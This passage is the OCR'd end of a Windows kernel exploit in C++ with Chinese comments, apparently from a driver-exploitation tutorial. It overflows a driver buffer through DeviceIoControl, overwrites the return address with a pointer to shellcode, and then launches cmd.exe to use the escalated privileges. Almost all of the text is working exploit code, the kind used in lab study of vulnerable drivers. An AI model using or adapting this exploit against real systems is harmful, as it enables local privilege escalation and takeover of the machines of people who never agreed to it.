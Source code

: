 ```cpp
		pop ebp;
		//此时使用retn函数返回IrpDeviceIoCtlHandler函数，
		//但是这个函数入栈了2个参数，
		//我们把这两个参数也要弹出去。
		retn 8;
	}
}

int _tmain(int argc, _TCHAR* argv[])
{
	HANDLE hDevice = CreateFile(
		DEVICE_LINK_NAME,
		GENERIC_READ | GENERIC_WRITE,
		FILE_SHARE_READ | FILE_SHARE_WRITE,
		NULL,
		OPEN_EXISTING,
		FILE_ATTRIBUTE_NORMAL,
		NULL);

	char buffer[0x824] ={0};
	memset(buffer,0x41,0x820);
	//a.取&buffer[0x820]的地址
	//b.*(DWORD*) (&buffer[0x820])把地址里面的数据换成shenllcode的地址
	*(DWORD*) (&buffer[0x820]) = (DWORD)shellcode;

	char buffer2[50] ={0};
	DWORD len = 0;
	BOOL IsOk = DeviceIoControl(hDevice,0x222003,buffer,sizeof(buffer),buffer2,sizeof(buffer2),&len,NULL);
	if (IsOk == FALSE)
	{
		int LastError = GetLastError();
		printf("LastError=%d \n",LastError);
	}

	CloseHandle(hDevice);
	hDevice = NULL;
	
	STARTUPINFO si;
	PROCESS_INFORMATION pi;

	ZeroMemory( &si, sizeof(si) );
	si.cb = sizeof(si);
	ZeroMemory( &pi, sizeof(pi) );
	CreateProcess(
		TEXT("C:\\Windows\\System32\\cmd.exe"),//创建一个命令行，需要注意的是命令行的所在的文件夹的位置
		NULL,NULL, NULL,FALSE,
		CREATE_NEW_CONSOLE,//创建一个新的窗口
		NULL,NULL,&si, &pi );

	system("pause");
	return 0;
}
```